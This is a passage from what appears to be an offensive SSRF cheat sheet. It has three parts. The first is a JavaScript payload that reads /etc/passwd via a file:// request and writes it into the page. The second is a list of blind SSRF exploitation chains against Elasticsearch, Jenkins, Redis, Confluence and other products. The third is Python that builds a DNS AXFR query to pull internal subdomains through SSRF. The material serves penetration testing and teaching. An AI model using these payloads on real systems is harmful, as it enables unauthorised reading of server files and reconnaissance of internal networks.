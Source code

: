 ```js
<script>
    exfil = new XMLHttpRequest();
    exfil.open("GET","file:///etc/passwd");
    exfil.send();
    exfil.onload = function(){document.write(this.responseText);}
    exfil.onerror = function(){document.write('failed!')}
</script>
```

## Blind SSRF

> When exploiting server-side request forgery, we can often find ourselves in a position where the response cannot be read. 

Use an SSRF chain to gain an Out-of-Band output.

From https://blog.assetnote.io/2021/01/13/blind-ssrf-chains/ / https://github.com/assetnote/blind-ssrf-chains

**Possible via HTTP(s)**
- [Elasticsearch](https://github.com/assetnote/blind-ssrf-chains#elasticsearch)
- [Weblogic](https://github.com/assetnote/blind-ssrf-chains#weblogic)
- [Hashicorp Consul](https://github.com/assetnote/blind-ssrf-chains#consul)
- [Shellshock](https://github.com/assetnote/blind-ssrf-chains#shellshock)
- [Apache Druid](https://github.com/assetnote/blind-ssrf-chains#druid)
- [Apache Solr](https://github.com/assetnote/blind-ssrf-chains#solr)
- [PeopleSoft](https://github.com/assetnote/blind-ssrf-chains#peoplesoft)
- [Apache Struts](https://github.com/assetnote/blind-ssrf-chains#struts)
- [JBoss](https://github.com/assetnote/blind-ssrf-chains#jboss)
- [Confluence](https://github.com/assetnote/blind-ssrf-chains#confluence)
- [Jira](https://github.com/assetnote/blind-ssrf-chains#jira)
- [Other Atlassian Products](https://github.com/assetnote/blind-ssrf-chains#atlassian-products)
- [OpenTSDB](https://github.com/assetnote/blind-ssrf-chains#opentsdb)
- [Jenkins](https://github.com/assetnote/blind-ssrf-chains#jenkins)
- [Hystrix Dashboard](https://github.com/assetnote/blind-ssrf-chains#hystrix)
- [W3 Total Cache](https://github.com/assetnote/blind-ssrf-chains#w3)
- [Docker](https://github.com/assetnote/blind-ssrf-chains#docker)
- [Gitlab Prometheus Redis Exporter](https://github.com/assetnote/blind-ssrf-chains#redisexporter)

**Possible via Gopher**
- [Redis](https://github.com/assetnote/blind-ssrf-chains#redis)
- [Memcache](https://github.com/assetnote/blind-ssrf-chains#memcache)
- [Apache Tomcat](https://github.com/assetnote/blind-ssrf-chains#tomcat)


## SSRF to AXFR DNS

Query an internal DNS resolver to trigger a full zone transfer (AXFR) and exfiltrate a list of subdomains.

```py
from urllib.parse import quote
domain,tld = "example.lab".split('.')
dns_request =  b"\x01\x03\x03\x07"    # BITMAP
dns_request += b"\x00\x01"            # QCOUNT
dns_request += b"\x00\x00"            # ANCOUNT
dns_request += b"\x00\x00"            # NSCOUNT
dns_request += b"\x00\x00"            # ARCOUNT
dns_request += len(domain).to_bytes() # LEN DOMAIN
dns_request += domain.encode()        # DOMAIN
dns_request += len(tld).to_bytes()    # LEN TLD
dns_request += tld.encode()           # TLD
dns_request += b"\x00"                # DNAME EOF
dns_request += b"\x00\xFC"            # QTYPE AXFR (252)
dns_request += b"\x00\x01"            # QCLASS IN (1)
```